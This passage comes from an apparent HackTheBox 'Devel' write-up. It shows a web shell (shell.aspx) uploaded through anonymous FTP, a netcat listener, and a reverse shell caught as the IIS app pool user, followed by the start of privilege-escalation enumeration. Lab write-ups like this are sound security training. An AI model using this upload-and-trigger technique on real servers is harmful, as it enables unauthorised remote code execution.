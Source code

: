 ```
Saved as: shell.aspx

```

upload to ftp server as follows:

```
╰─➤  ftp 10.10.10.5                               
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:initinfosec): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.

ftp> send
(local-file) /home/initinfosec/writeups/HTB/devel/enumeration/shell.aspx 
(remote-file) shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2911 bytes sent in 0.000225 seconds (12.3 Mbytes/s)

```

(could have used a one-liner send, but this works too)

open a listener with <code>nc -lnvp 4443</code>

and browse to <code>http://10.10.10.5/shell.aspx</code> in the browser and we get a shell!

```
╰─➤  sudo nc -nlvp 4443                                                   

[sudo] password for initinfosec: 
Connection from 10.10.10.5:49159
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
iis apppool\web

```

Upon trying to grab the user flag, looks like access is restricted. So we need to enumerate more and privesc.

&nbsp;
## The rocky road to privilege escalation & a system shell
&nbsp;

### further enumeration
running systeminfo reveals it ix indeed a x86 Windows 7 Enterprise box.
